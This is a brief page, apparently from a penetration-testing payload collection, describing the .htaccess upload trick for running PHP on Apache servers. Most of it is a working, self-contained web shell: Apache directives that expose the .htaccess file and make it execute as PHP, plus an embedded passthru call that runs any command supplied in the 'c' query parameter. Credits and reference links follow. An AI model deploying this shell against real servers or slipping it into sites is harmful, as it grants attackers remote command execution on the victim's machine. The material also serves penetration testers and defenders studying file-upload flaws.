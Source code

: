 # .htaccess upload
Uploading an .htaccess file to override Apache rule and execute PHP.
"Hackers can also use “.htaccess” file tricks to upload a malicious file with any extension and execute it. For a simple example, imagine uploading to the vulnerabler server an .htaccess file that has AddType application/x-httpd-php .htaccess configuration and also contains PHP shellcode. Because of the malicious .htaccess file, the web server considers the .htaccess file as an executable php file and executes its malicious PHP shellcode. One thing to note: .htaccess configurations are applicable only for the same directory and sub-directories where the .htaccess file is uploaded."


Self contained .htaccess web shell
```
# Self contained .htaccess web shell - Part of the htshell project
# Written by Wireghoul - http://www.justanotherhacker.com

# Override default deny rule to make .htaccess file accessible over web
<Files ~ "^\.ht">
Order allow,deny
Allow from all
</Files>

# Make .htaccess file be interpreted as php file. This occur after apache has interpreted
# the apache directoves from the .htaccess file
AddType application/x-httpd-php .htaccess

###### SHELL ###### <?php echo "\n";passthru($_GET['c']." 2>&1"); ?>###### LLEHS ######
```


## Thanks to
* [ATTACKING WEBSERVERS VIA .HTACCESS - By Eldar Marcussen ](http://www.justanotherhacker.com/2011/05/htaccess-based-attacks.html)
* [](https://blog.qualys.com/securitylabs/2015/10/22/unrestricted-file-upload-vulnerability)
